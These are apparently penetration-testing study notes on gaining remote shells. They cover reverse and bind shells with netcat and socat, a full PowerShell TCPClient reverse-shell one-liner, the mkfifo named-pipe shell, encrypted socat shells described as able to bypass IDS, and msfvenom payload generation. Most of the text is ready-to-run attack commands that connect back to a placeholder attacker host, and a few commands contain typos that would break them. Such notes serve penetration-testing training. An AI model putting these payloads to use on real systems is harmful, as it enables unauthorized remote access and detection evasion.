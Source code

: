 - Command line access to the server (reverse shell).
- Open a port on the server which we can connect to in order to execute further commands (bind shell).
- ## Types
	- #### *Reverse Shells*
		- Target forced to execute code that connects back to our computer.
		- A good way to bypass firewall rules that may prevent us from connecting to arbitrary ports on the target.
		- When receiving a shell from a machine across the internet, we would need to configure our own network to accept the shell.
	- #### Bind Shells
		- Code executed on the target is used to start a listener attached to a shell directly on the target.
		- This would then be opened to the internet, meaning we could connect to the port that the code has opened and obtain RCE that way.
		- Has the advantage of not requiring any configuration on our own network, but may be prevented by firewalls.
- [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- ## Tools
	- #### Netcat
		- Used to perform
			- Banner grabbing during enumeration.
			- Receive reverse shells.
			- Connect to remote ports to bind shells on a target system.
		- Very unstable, but can be improved by techniques.
		- **Reverse Shell**
			- On the attacker `sudo nc -lvnp <port>`
			- On the target `nc <attacker-ip> <port> -e /bin/bash`
		- **Bind Shell**
			- On the target `nc -lvnp <port> -e "cmd.exe`
			- On the attacker `nc <target-ip> <port>`
		- **Stabilization**
			- Using Python
				- `python -c 'import pty;pty.spawn("/bin/bash")'` spawns a better featured bash shell.
				- `export TERM=xterm` gives us access to term commands like `clear`.
				- Background the shell using `CTRL+Z` then on our machine use `stty raw -echo; fg`
					- First it turns off our own terminal echo (which gives us access to autocompletes, arrow keys, and `CTRL+C` to kill processes).
					- Then foregrounds the shell.
			- Using rlwrap
				- A program that gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell.
				- However, some manual stabilization must still be utilized to use `CTRL+C`.
				- `rlwrap nc -lvnp <port>`
				- Background the shell using `CTRL+Z` then on our machine use `stty raw -echo; fg` to completely stabilize the shell.
			- Using Socat
				- Use an initial netcat shell as a stepping stone into a more fully-fledged socat shell.
				- Limited to Linux targets.
				- Transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true) to the target.
				- Change the terminal tty size using
						- On the attacking machine use `stty -a` to get the rows and columns values.
						- On the reverse/bind shell `stty rows <rows>` `stty cols <columns>`
	- #### Socat
		- Netcat on steroids.
		- Can do the same thing as Netcat, and more, but more stable.
		- A connector between two points; a listening port and a keyboard, a listening port and a file, or two listening ports.
		- **Reverse Shells**
			- On the attacker `socat TCP-L:<port -`
			- On the target
				- Windows `socat TCP:<attacker-ip>:<port> EXEC:powershell.exe,pipes`
				- Linux `socat TCP:<attacker-ip>:<port> EXEC:"bash -li"`.
		- **Bind Shells**
			- On the target
				- Windows `socat TCP-L:<port> EXEC:powershell.exe,pipes` pipes interfaces between the Unix and Windows ways of handling input and output in a CLI environment.
				- Linux `socat TCP-L:<port> EXEC:"bash -li"`
			- On the attacker `socat TCP:<target-ip>:<target-port> -`
		- A fully stable Linux tty reverse shell
			- The listener ```socat TCP-L:<port> FILE:`tty`,raw,echo=0```
			- In case socat isn't on the target, Use [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true).
			- Activate the listener with `socat TCP:<attacker-ip> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
				- `pty` allocates a pseudoterminal on the target.
				- `stderr` makes sure that any error messages get shown in the shell.
				- `sigint` passes any Ctrl + C commands through into the sub-process
				- `setsid` creates the process in a new session.
				- `sane` stabilizes the terminal, attempting to "normalize" it.
		- For debugging add `-d -d`.
		- **Encrypted Shells**
			- Able to bypass IDS.
			- Generate a certificate to use encrypted shells `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`.
			- Merge the two created files into a single `.pem` file `cat shell.key shell.crt > shell.pem`.
			- Copy the `.pem` file to the target.
			- For reverse shells
				- Set up a reverse shell using `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -`.
					- Sets up a listener.
					- `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized authority.
				- To connect back use `socat OPENSSL:<attacker-ip>:<attecker-port>,verify=0 EXEC:/bin/bash`.
			- For bind shells
				- On target `socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`.
				- On attacker `socat OPENSSL:<target-ip>:<target-port>,verify=0 -`.
		- A fully stable Linux tty reverse shell
			- Listener ```socat OPENSSL-LISTENER:<port>,cert=shell.pem,verify=0 file:`tty`,raw,echo=0```.
			- Connect using `socat OPENSSL:<attacker-ip>:<attacker-port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`.
	- #### Common Shell Payloads
		- In some versions of netcat, there is an option `-e` which allows us to execute a process on connection `nc -lvnp <port> -e /bin/bash`.
		- Connecting to the above listener with netcat would result in a bind shell on the target.
		- For a reverse shell, connecting back with `nc <attacker-ip> <attacker-port> -e /bin/bash`.
		- For Windows, the above works perfectly because we would already have transferred a static binary of netcat which includes the `-e` option, but for Linux, we use this code to create a listener for a bind shell `mkfifo /tmp/f; nc -lvnp <port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.
			- Creates a named pipe at `/tmp/f`
			- Then starts a netcat listener, and connects the input of the listener to the output of the named pipe.
			- The output of the listener (the commands we send) then gets piped directly into `sh`, sending the `stderr` output stream into `stdout`, and sending `stdout` itself into the input of the named pipe, thus completing the circle.
		- The above for reverse shells `mkfifo /tmp/f; nc <attacker-ip> <attacker-port> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`.
		- PowerShell one-liner reverse shell 
			- `powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
			- 
	- #### Metasploit multi/handler
		- `exploit/multi/handler` module, used to receive reverse shells.
		- The only way to interact with a `meterpreter` shell.
		- The easiest way to handle staged payloads.
	- #### Msfvenom
		- Generates payload like reverse shells, bind shells and many more.
		- `msfvenom -p <payload> <options>`.
		- `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe lhost=<attacker-ip> lport=<attacker-port>`.
			- `-f` output format, `exe, elf, aspx, war, py`.
		- **Staged**
			- Payloads are sent in two parts
				- The first part is called the stager, piece of code executed directly on the target itself. Connects back to a waiting listener, but doesn't actually contain any reverse shell code. Used to load the real payload, executing it directly and preventing it from touching the disk where it could get caught by anti-virus solutions.
				- The bulkier reverse shell code which is downloaded when the stager is activated. Requires a special listener, usually Metasploit multi/handler.
		- **Stageless**
			- Entirely self-contained in one piece of code which when executed sends a shell back immediately to the waiting listener.
			- The most common reverse shell payload.
			- Easier to use and catch, and are easier for an anti-virus or IPS program to discover and remove.
		- **Naming Convention for Payloads**
			- `<OS>/<arch>/<payload>` for example `linux/x86/shell_reverse_tcp`. With an exception to this convention for Windows 32 bit targets `windows/shell_reverse_tcp`.
			- Staged payloads are indicated with `/` like `shell/reverse_tcp` and stageless with `_` like `shell_reverse_tcp`.
			- The above rule also applies to Meterpreter payloads.
				- A Windows 64 bit staged Meterpreter payload `windows/x64/meterpreter/reverse_tcp`.
				- A Linux 32 bit stageless Meterpreter payload `linux/x86/meterpreter_reverse_tcp`.
		- List payloads with `msfvenom --list payloads`.